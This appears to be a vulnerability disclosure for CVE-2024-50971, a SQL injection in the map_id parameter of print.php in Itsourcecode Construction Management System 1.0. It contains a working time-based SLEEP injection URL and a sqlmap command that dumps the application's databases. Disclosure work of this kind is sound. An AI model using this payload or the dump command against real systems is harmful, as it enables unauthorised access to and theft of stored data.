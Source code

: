# CVE-2024-50971
## Description

A SQL injection vulnerability in print.php of Itsourcecode Construction Management System 1.0 allows remote attackers to execute arbitrary SQL commands via the map_id parameter.

## Vulnerability Type
SQL Injection

## Vendor of Product
Itsourcecode

## Affected Product Code Base:
https://itsourcecode.com/free-projects/php-project/construction-management-system-project-in-php-with-source-code/ - 1.0

## Affected Component:
The Itsourcecode Construction Management System v1.0 is vulnerable to SQL injection through the map_id parameter in the print.php page.

## Attack Vectors:
1. Set up the application locally, register an account, and log in with the admin credentials as admin:admin
2. Navigate to the following URL in your browser:
   http://localhost/monitoring_system/print.php?map_id=67
3. Inject SQL Payload:
   Modify the map_id parameter in the URL to include a time-based SQL injection payload.
   http://localhost/monitoring_system/print.php?map_id=67'+AND+(SELECT+1386+FROM+(SELECT(SLEEP(15)))LhJj)--+byxm
4. Observe the Application Response:
   The page should take noticeably longer (15 seconds) to load if the injection is successful, confirming that the map_id parameter is vulnerable to SQL injection.
5. Now use the SQLMap tool for further exploitation and dumping databases using the below command:
   sqlmap.py -u http://localhost/monitoring_system/print.php?map_id=67 --risk 3 --level 3 --cookie="PHPSESSID=your_cookie_here" --dbs --technique=T --dump --no-cast

## Reference:
1. https://itsourcecode.com/free-projects/php-project/construction-management-system-project-in-php-with-source-code/
2. https://owasp.org/www-community/attacks/SQL_Injection
